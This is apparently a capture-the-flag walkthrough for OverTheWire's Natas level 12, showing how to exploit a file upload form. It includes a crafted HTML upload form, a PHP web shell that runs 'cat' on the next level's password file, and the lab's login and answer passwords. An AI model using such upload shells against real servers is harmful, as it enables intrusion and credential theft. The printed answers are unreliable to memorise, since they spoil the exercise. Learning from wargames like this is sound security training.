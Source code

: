 # [Level 11 to 12](https://overthewire.org/wargames/natas/natas12.html) - Exploit file upload

- Login
```
URL: http://natas12.natas.labs.overthewire.org
Username: natas12
Password: yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
```
- Exercise:
![image](https://github.com/user-attachments/assets/bc198088-c94a-4f8c-9bc0-617bda87fc74)
![image](https://github.com/user-attachments/assets/b98e4e20-afb9-40de-93e8-8192a2cad313)

- Background:
- Solution:
  - Save the following as file `natas12_form.html`: 
  ```html
  <html>
  <form enctype="multipart/form-data" action="http://natas12.natas.labs.overthewire.org/index.php" method="POST">
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
  <input type="hidden" name="filename" value="natas12_getpass.php" />
  Choose a JPEG to upload (max 1KB):<br/>
  <input name="uploadedfile" type="file" /><br />
  <input type="submit" value="Upload File" />
  </form>
  </body>
  </html>
  ```
    - Submits a file upload request to the webserver's upload handler `index.php`
    - Telling the server to save the uploaded file as `natas12_getpass.php`
  - Save the following as file `natas12_getpass.php` and load it into `natas12_form.html`:
  ```php
  <?php
  system("cat /etc/natas_webpass/natas13")
  ?>
  ```
    - PHP script that reads the contents of the password file for natas13
    - When this file is executed by the server, the password will be printed on the webpage
  ![image](https://github.com/user-attachments/assets/8bf24710-50dd-4eff-bf94-b84b81aa890d)
  ![image](https://github.com/user-attachments/assets/40f6d645-2567-4c56-86a2-76a2f2465d93)
  ![image](https://github.com/user-attachments/assets/f8d0abd9-b252-44be-b4b9-aac9f27389a0)

- Password: `trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`
